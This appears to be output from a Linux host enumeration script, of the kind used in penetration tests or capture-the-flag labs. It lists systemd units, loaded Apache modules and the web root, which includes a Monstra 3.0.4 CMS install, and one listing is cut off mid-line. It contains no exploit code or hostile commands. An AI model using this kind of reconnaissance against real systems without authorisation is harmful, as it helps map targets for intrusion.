-rw-r--r-- 1 root root  216 Mar 16  2017 ssh.socket
-rw-r--r-- 1 root root  196 Mar 16  2017 ssh@.service
-rw-r--r-- 1 root root  411 Feb  3  2017 mysql.service
-rw-r--r-- 1 root root  269 Jan 31  2017 setvtrgb.service
-rw-r--r-- 1 root root  491 Jan 12  2017 dbus.service
-rw-r--r-- 1 root root  106 Jan 12  2017 dbus.socket
-rw-r--r-- 1 root root  735 Nov 30  2016 networking.service
-rw-r--r-- 1 root root  497 Nov 30  2016 ifup@.service
-rw-r--r-- 1 root root  631 Nov  3  2016 accounts-daemon.service
-rw-r--r-- 1 root root  285 Jun 16  2016 keyboard-setup.service
-rw-r--r-- 1 root root  288 Jun 16  2016 console-setup.service
lrwxrwxrwx 1 root root    9 Apr 16  2016 lvm2.service -> /dev/null
-rw-r--r-- 1 root root  334 Apr 16  2016 dm-event.service
-rw-r--r-- 1 root root  248 Apr 16  2016 dm-event.socket
-rw-r--r-- 1 root root  380 Apr 16  2016 lvm2-lvmetad.service
-rw-r--r-- 1 root root  215 Apr 16  2016 lvm2-lvmetad.socket
-rw-r--r-- 1 root root  335 Apr 16  2016 lvm2-lvmpolld.service
-rw-r--r-- 1 root root  213 Apr 16  2016 lvm2-lvmpolld.socket
-rw-r--r-- 1 root root  658 Apr 16  2016 lvm2-monitor.service
-rw-r--r-- 1 root root  382 Apr 16  2016 lvm2-pvscan@.service
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel1.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel2.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel3.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel4.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel5.target.wants
-rw-r--r-- 1 root root  234 Apr  8  2016 acpid.service
-rw-r--r-- 1 root root  251 Apr  5  2016 cron.service
-rw-r--r-- 1 root root  290 Apr  5  2016 rsyslog.service
-rw-r--r-- 1 root root  142 Mar 31  2016 apport-forward@.service
-rw-r--r-- 1 root root  455 Mar 29  2016 iscsid.service
-rw-r--r-- 1 root root 1.1K Mar 29  2016 open-iscsi.service
-rw-r--r-- 1 root root  115 Feb  9  2016 acpid.socket
-rw-r--r-- 1 root root  115 Feb  9  2016 acpid.path
-rw-r--r-- 1 root root  169 Jan 14  2016 atd.service
-rw-r--r-- 1 root root  182 Jan 14  2016 polkitd.service
-rw-r--r-- 1 root root  790 Jun  1  2015 friendly-recovery.service
-rw-r--r-- 1 root root  241 Mar  3  2015 ufw.service
-rw-r--r-- 1 root root  250 Feb 24  2015 ureadahead-stop.service
-rw-r--r-- 1 root root  242 Feb 24  2015 ureadahead-stop.timer
-rw-r--r-- 1 root root  401 Feb 24  2015 ureadahead.service
-rw-r--r-- 1 root root  188 Feb 24  2014 rsync.service

/lib/systemd/system/halt.target.wants:
total 0
lrwxrwxrwx 1 root root 24 Apr  3  2018 plymouth-halt.service -> ../plymouth-halt.service

/lib/systemd/system/kexec.target.wants:
total 0
lrwxrwxrwx 1 root root 25 Apr  3  2018 plymouth-kexec.service -> ../plymouth-kexec.service

/lib/systemd/system/poweroff.target.wants:
total 0
lrwxrwxrwx 1 root root 28 Apr  3  2018 plymouth-poweroff.service -> ../plymouth-poweroff.service
lrwxrwxrwx 1 root root 39 Mar  8  2018 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/sysinit.target.wants:
total 0
lrwxrwxrwx 1 root root 30 Apr  3  2018 plymouth-read-write.service -> ../plymouth-read-write.service
lrwxrwxrwx 1 root root 25 Apr  3  2018 plymouth-start.service -> ../plymouth-start.service
lrwxrwxrwx 1 root root 30 Mar  8  2018 systemd-hwdb-update.service -> ../systemd-hwdb-update.service
lrwxrwxrwx 1 root root 31 Mar  8  2018 systemd-udev-trigger.service -> ../systemd-udev-trigger.service
lrwxrwxrwx 1 root root 24 Mar  8  2018 systemd-udevd.service -> ../systemd-udevd.service
lrwxrwxrwx 1 root root 20 Mar  8  2018 cryptsetup.target -> ../cryptsetup.target
lrwxrwxrwx 1 root root 22 Mar  8  2018 dev-hugepages.mount -> ../dev-hugepages.mount
lrwxrwxrwx 1 root root 19 Mar  8  2018 dev-mqueue.mount -> ../dev-mqueue.mount
lrwxrwxrwx 1 root root 28 Mar  8  2018 kmod-static-nodes.service -> ../kmod-static-nodes.service
lrwxrwxrwx 1 root root 36 Mar  8  2018 proc-sys-fs-binfmt_misc.automount -> ../proc-sys-fs-binfmt_misc.automount
lrwxrwxrwx 1 root root 32 Mar  8  2018 sys-fs-fuse-connections.mount -> ../sys-fs-fuse-connections.mount
lrwxrwxrwx 1 root root 26 Mar  8  2018 sys-kernel-config.mount -> ../sys-kernel-config.mount
lrwxrwxrwx 1 root root 25 Mar  8  2018 sys-kernel-debug.mount -> ../sys-kernel-debug.mount
lrwxrwxrwx 1 root root 36 Mar  8  2018 systemd-ask-password-console.path -> ../systemd-ask-password-console.path
lrwxrwxrwx 1 root root 25 Mar  8  2018 systemd-binfmt.service -> ../systemd-binfmt.service
lrwxrwxrwx 1 root root 32 Mar  8  2018 systemd-journal-flush.service -> ../systemd-journal-flush.service
lrwxrwxrwx 1 root root 27 Mar  8  2018 systemd-journald.service -> ../systemd-journald.service
lrwxrwxrwx 1 root root 36 Mar  8  2018 systemd-machine-id-commit.service -> ../systemd-machine-id-commit.service
lrwxrwxrwx 1 root root 31 Mar  8  2018 systemd-modules-load.service -> ../systemd-modules-load.service
lrwxrwxrwx 1 root root 30 Mar  8  2018 systemd-random-seed.service -> ../systemd-random-seed.service
lrwxrwxrwx 1 root root 25 Mar  8  2018 systemd-sysctl.service -> ../systemd-sysctl.service
lrwxrwxrwx 1 root root 37 Mar  8  2018 systemd-tmpfiles-setup-dev.service -> ../systemd-tmpfiles-setup-dev.service
lrwxrwxrwx 1 root root 33 Mar  8  2018 systemd-tmpfiles-setup.service -> ../systemd-tmpfiles-setup.service
lrwxrwxrwx 1 root root 30 Mar  8  2018 systemd-update-utmp.service -> ../systemd-update-utmp.service
lrwxrwxrwx 1 root root 24 Feb  9  2018 console-setup.service -> ../console-setup.service
lrwxrwxrwx 1 root root 25 Feb  9  2018 keyboard-setup.service -> ../keyboard-setup.service
lrwxrwxrwx 1 root root 19 Feb  9  2018 setvtrgb.service -> ../setvtrgb.service

/lib/systemd/system/initrd-switch-root.target.wants:
total 0
lrwxrwxrwx 1 root root 25 Apr  3  2018 plymouth-start.service -> ../plymouth-start.service
lrwxrwxrwx 1 root root 31 Apr  3  2018 plymouth-switch-root.service -> ../plymouth-switch-root.service

/lib/systemd/system/multi-user.target.wants:
total 0
lrwxrwxrwx 1 root root 29 Apr  3  2018 plymouth-quit-wait.service -> ../plymouth-quit-wait.service
lrwxrwxrwx 1 root root 24 Apr  3  2018 plymouth-quit.service -> ../plymouth-quit.service
lrwxrwxrwx 1 root root 15 Mar  8  2018 getty.target -> ../getty.target
lrwxrwxrwx 1 root root 33 Mar  8  2018 systemd-ask-password-wall.path -> ../systemd-ask-password-wall.path
lrwxrwxrwx 1 root root 25 Mar  8  2018 sy[-] Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php7_module (shared)
 rewrite_module (shared)
 setenvif_module (shared)
 status_module (shared)


[-] www home dir contents:
/var/www/:
total 12K
drwxr-xr-x  3 root     root     4.0K Feb  9  2018 .
drwxr-xr-x 14 root     root     4.0K Feb  9  2018 ..
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2018 html

/var/www/html:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2018 .
drwxr-xr-x 3 root     root     4.0K Feb  9  2018 ..
-rw-r--r-- 1 root     root      11K Feb 21  2018 index.html
-rw-r--r-- 1 root     root      208 Feb 21  2018 robots.txt
drwxr-xr-x 4 root     root     4.0K Feb 21  2018 webservices

/var/www/html/webservices:
total 16K
drwxr-xr-x  4 root     root     4.0K Feb 21  2018 .
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2018 ..
drwxr-xr-x 11 root     root     4.0K Feb 21  2018 monstra-3.0.4
drwxr-xr-x  5 root     root     4.0K May  2  2018 wp

/var/www/html/webservices/monstra-3.0.4:
total 100K
drwxr-xr-x 11 root root 4.0K Feb 21  2018 .
drwxr-xr-x  4 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root  518 Apr  5  2016 .gitignore
-rwxr-xr-x  1 root root 2.2K Feb 21  2018 .htaccess
-rwxr-xr-x  1 root root  16K Apr  5  2016 CHANGELOG.md
-rwxr-xr-x  1 root root 1.1K Apr  5  2016 LICENSE.md
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 README.md
drwxr-xr-x  3 root root 4.0K Feb 21  2018 admin
drwxr-xr-x  2 root root 4.0K Apr  5  2016 backups
drwxr-xr-x  2 root root 4.0K Apr  5  2016 boot
drwxr-xr-x  5 root root 4.0K Apr  5  2016 engine
-rwxr-xr-x  1 root root 1.2K Apr  5  2016 favicon.ico
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 index.php
-rwxr-xr-x  1 root root 1.9K Feb 21  2018 index_copy.php
drwxr-xr-x  5 root root 4.0K Apr  5  2016 libraries
drwxr-xr-x  9 root root 4.0K Apr  5  2016 plugins
drwxr-xr-x  5 root root 4.0K Apr  5  2016 public
-rwxr-xr-x  1 root root   92 Apr  5  2016 robots.txt
-rwxr-xr-x  1 root root 1.8K Apr  5  2016 rss.php
-rw-rw-rw-  1 root root  730 Feb 21  2018 sitemap.xml
drwxr-xr-x  7 root root 4.0K Apr  5  2016 storage
drwxr-xr-x  5 root root 4.0K Apr  5  2016 tmp

/var/www/html/webservices/monstra-3.0.4/admin:
total 20K
drwxr-xr-x  3 root root 4.0K Feb 21  2018 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 6.5K Apr  5  2016 index.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 themes

/var/www/html/webservices/monstra-3.0.4/admin/themes:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Feb 21  2018 ..
drwxr-xr-x 4 root root 4.0K Apr  5  2016 default

/var/www/html/webservices/monstra-3.0.4/admin/themes/default:
total 36K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x 1 root root 8.9K Apr  5  2016 index.template.php
drwxr-xr-x 2 root root 4.0K Apr  5  2016 js
-rwxr-xr-x 1 root root 7.0K Apr  5  2016 login.template.php

/var/www/html/webservices/monstra-3.0.4/admin/themes/default/css:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  11K Apr  5  2016 default.css

/var/www/html/webservices/monstra-3.0.4/admin/themes/default/js:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  681 Apr  5  2016 default.js

/var/www/html/webservices/monstra-3.0.4/backups:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root    0 Apr  5  2016 .empty
-rwxr-xr-x  1 root root   13 Apr  5  2016 .htaccess

/var/www/html/webservices/monstra-3.0.4/boot:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 1.9K Apr  5  2016 defines.php

/var/www/html/webservices/monstra-3.0.4/engine:
total 76K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root 2.4K Apr  5  2016 Alert.php
-rwxr-xr-x  1 root root  11K Apr  5  2016 Monstra.php
-rwxr-xr-x  1 root root 4.4K Apr  5  2016 Option.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Plugin
-rwxr-xr-x  1 root root 6.4K Apr  5  2016 Security.php
-rwxr-xr-x  1 root root 4.4K Apr  5  2016 Shortcode.php
-rwxr-xr-x  1 root root 5.5K Apr  5  2016 Site.php
-rwxr-xr-x  1 root root 3.8K Apr  5  2016 Uri.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Xmldb
-rwxr-xr-x  1 root root  838 Apr  5  2016 _init.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 boot

/var/www/html/webservices/monstra-3.0.4/engine/Plugin:
total 72K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 3.3K Apr  5  2016 Action.php
-rwxr-xr-x 1 root root  388 Apr  5  2016 Backend.php
-rwxr-xr-x 1 root root 3.7K Apr  5  2016 Filter.php
-rwxr-xr-x 1 root root  739 Apr  5  2016 Frontend.php
-rwxr-xr-x 1 root root 5.5K Apr  5  2016 I18n.php
-rwxr-xr-x 1 root root 5.0K Apr  5  2016 Javascript.php
-rwxr-xr-x 1 root root 6.9K Apr  5  2016 Navigation.php
-rwxr-xr-x 1 root root 5.2K Apr  5  2016 Plugin.php
-rwxr-xr-x 1 root root 5.8K Apr  5  2016 Stylesheet.php
-rwxr-xr-x 1 root root 5.5K Apr  5  2016 View.php

/var/www/html/webservices/monstra-3.0.4/engine/Xmldb:
total 40K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 DB.php
-rwxr-xr-x 1 root root  24K Apr  5  2016 Table.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 XML.php

/var/www/html/webservices/monstra-3.0.4/engine/boot:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  271 Apr  5  2016 actions.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 defines.php
-rwxr-xr-x 1 root root  510 Apr  5  2016 filters.php
-rwxr-xr-x 1 root root  216 Apr  5  2016 shortcodes.php

/var/www/html/webservices/monstra-3.0.4/libraries:
total 20K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
drwxr-xr-x 29 root root 4.0K Apr  5  2016 Gelato
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Idiorm
drwxr-xr-x  2 root root 4.0K Apr  5  2016 PHPMailer

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato:
total 164K
drwxr-xr-x 29 root root 4.0K Apr  5  2016 .
drwxr-xr-x  5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Agent
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Arr
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Cache
drwxr-xr-x  2 root root 4.0K Apr  5  2016 ClassLoader
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Cookie
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Curl
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Date
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Debug
drwxr-xr-x  3 root root 4.0K Apr  5  2016 ErrorHandler
drwxr-xr-x  2 root root 4.0K Apr  5  2016 FileSystem
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Form
-rwxr-xr-x  1 root root 3.2K Apr  5  2016 Gelato.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Html
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Http
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Image
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Inflector
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Log
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Minify
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Notification
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Number
-rwxr-xr-x  1 root root  240 Apr  5  2016 README.md
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Registry
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Security
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Session
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Text
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Url
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Validation
drwxr-xr-x  2 root root 4.0K Apr  5  2016 Zip
drwxr-xr-x  2 root root 4.0K Apr  5  2016 _logs
-rwxr-xr-x  1 root root  576 Apr  5  2016 changelog.txt
-rwxr-xr-x  1 root root  34K Apr  5  2016 license.txt

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Agent:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.6K Apr  5  2016 Agent.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Arr:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.7K Apr  5  2016 Arr.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Cache:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.3K Apr  5  2016 Cache.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ClassLoader:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.8K Apr  5  2016 ClassLoader.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Cookie:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.3K Apr  5  2016 Cookie.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Curl:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.2K Apr  5  2016 Curl.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Date:
total 24K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  15K Apr  5  2016 Date.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Debug:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.7K Apr  5  2016 Debug.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler:
total 24K
drwxr-xr-x  3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 9.2K Apr  5  2016 ErrorHandler.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 Resources

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 3 root root 4.0K Apr  5  2016 Views

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources/Views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 Errors

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/ErrorHandler/Resources/Views/Errors:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 8.7K Apr  5  2016 exception.php
-rwxr-xr-x 1 root root  843 Apr  5  2016 production.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/FileSystem:
total 36K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.2K Apr  5  2016 Dir.php
-rwxr-xr-x  1 root root  17K Apr  5  2016 File.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Form:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  11K Apr  5  2016 Form.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Html:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  11K Apr  5  2016 Html.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Http:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.3K Apr  5  2016 Request.php
-rwxr-xr-x  1 root root 4.0K Apr  5  2016 Response.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Image:
total 28K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  19K Apr  5  2016 Image.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Inflector:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 6.9K Apr  5  2016 Inflector.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Log:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 1.5K Apr  5  2016 Log.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Minify:
total 24K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 7.4K Apr  5  2016 MinifyCSS.php
-rwxr-xr-x  1 root root 1.2K Apr  5  2016 MinifyHTML.php
-rwxr-xr-x  1 root root 1.4K Apr  5  2016 MinifyJS.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Notification:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.5K Apr  5  2016 Notification.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Number:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.9K Apr  5  2016 Number.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Registry:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.2K Apr  5  2016 Registry.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Security:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.3K Apr  5  2016 Token.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Session:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 4.0K Apr  5  2016 Session.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Text:
total 20K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  12K Apr  5  2016 Text.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Url:
total 12K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 2.9K Apr  5  2016 Url.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Validation:
total 16K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 5.0K Apr  5  2016 Valid.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/Zip:
total 32K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  24K Apr  5  2016 Zip.php

/var/www/html/webservices/monstra-3.0.4/libraries/Gelato/_logs:
total 8.0K
drwxr-xr-x  2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 29 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root    0 Apr  5  2016 .empty

/var/www/html/webservices/monstra-3.0.4/libraries/Idiorm:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  78K Apr  5  2016 ORM.php

/var/www/html/webservices/monstra-3.0.4/libraries/PHPMailer:
total 100K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  89K Apr  5  2016 PHPMailer.php

/var/www/html/webservices/monstra-3.0.4/plugins:
total 40K
drwxr-xr-x  9 root root 4.0K Apr  5  2016 .
drwxr-xr-x 11 root root 4.0K Feb 21  2018 ..
-rwxr-xr-x  1 root root   13 Apr  5  2016 .htaccess
drwxr-xr-x  5 root root 4.0K Apr  5  2016 blog
drwxr-xr-x 17 root root 4.0K Apr  5  2016 box
drwxr-xr-x  5 root root 4.0K Apr  5  2016 captcha
drwxr-xr-x  4 root root 4.0K Apr  5  2016 codemirror
drwxr-xr-x  4 root root 4.0K Apr  5  2016 markdown
drwxr-xr-x  4 root root 4.0K Apr  5  2016 markitup
drwxr-xr-x  5 root root 4.0K Apr  5  2016 sandbox

/var/www/html/webservices/monstra-3.0.4/plugins/blog:
total 40K
drwxr-xr-x 5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 9 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  768 Apr  5  2016 README.md
-rwxr-xr-x 1 root root 9.8K Apr  5  2016 blog.plugin.php
drwxr-xr-x 2 root root 4.0K Apr  5  2016 install
drwxr-xr-x 2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 rss.php
drwxr-xr-x 3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/blog/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 blog.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/blog/languages:
total 32K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  285 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  300 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  311 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  393 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  299 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  300 Apr  5  2016 tr.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/blog/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 frontend

/var/www/html/webservices/monstra-3.0.4/plugins/blog/views/frontend:
total 32K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  420 Apr  5  2016 block.view.php
-rwxr-xr-x 1 root root  568 Apr  5  2016 breadcrumbs.view.php
-rwxr-xr-x 1 root root  453 Apr  5  2016 index.view.php
-rwxr-xr-x 1 root root  907 Apr  5  2016 pager.view.php
-rwxr-xr-x 1 root root  305 Apr  5  2016 related_posts.view.php
-rwxr-xr-x 1 root root  249 Apr  5  2016 tags.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box:
total 68K
drwxr-xr-x 17 root root 4.0K Apr  5  2016 .
drwxr-xr-x  9 root root 4.0K Apr  5  2016 ..
